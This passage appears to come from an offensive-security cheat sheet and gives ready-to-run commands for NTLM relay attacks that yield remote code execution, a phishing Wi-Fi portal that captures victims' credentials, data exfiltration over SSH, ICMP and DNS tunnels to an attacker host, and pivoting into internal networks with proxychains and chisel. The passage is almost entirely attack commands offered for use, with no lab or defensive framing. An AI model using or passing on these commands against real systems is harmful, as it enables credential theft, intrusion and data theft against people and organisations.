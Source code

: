 ```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```

Use in combination with Responder to relay SMB auths → remote code execution.

***

### XV. ⚙️ Wi-Fi Credential Harvesting Portal

Automate captive-portal phishing:

```bash
git clone https://github.com/sophron/wifiphisher
sudo wifiphisher -aI wlan0mon -e "CafeFreeWiFi"
```

Victims receive a fake login page → captured credentials logged to console.

***

### XVI. ⚙️ Traffic Tunneling & Exfiltration

#### 🧩 SSH Tunnel

```bash
ssh -D 1080 user@10.10.14.2
proxychains firefox
```

#### 💣 ICMP Tunnel

```bash
sudo icmptunnel 10.10.14.2
```

#### ⚙️ DNS Tunnel

```bash
iodine -f attacker.com 10.10.14.2
```

***

### XVII. 🧠 Network Pivoting

Once inside a network, pivot to internal systems.

#### ⚙️ With Proxychains + SSH

```bash
ssh -D 9050 user@pivot
proxychains nmap -sT -Pn 10.0.0.0/24
```

#### 💣 With Chisel

```bash
./chisel server -p 8000 --reverse
./chisel client 10.10.14.2:8000 R:1080:socks
```
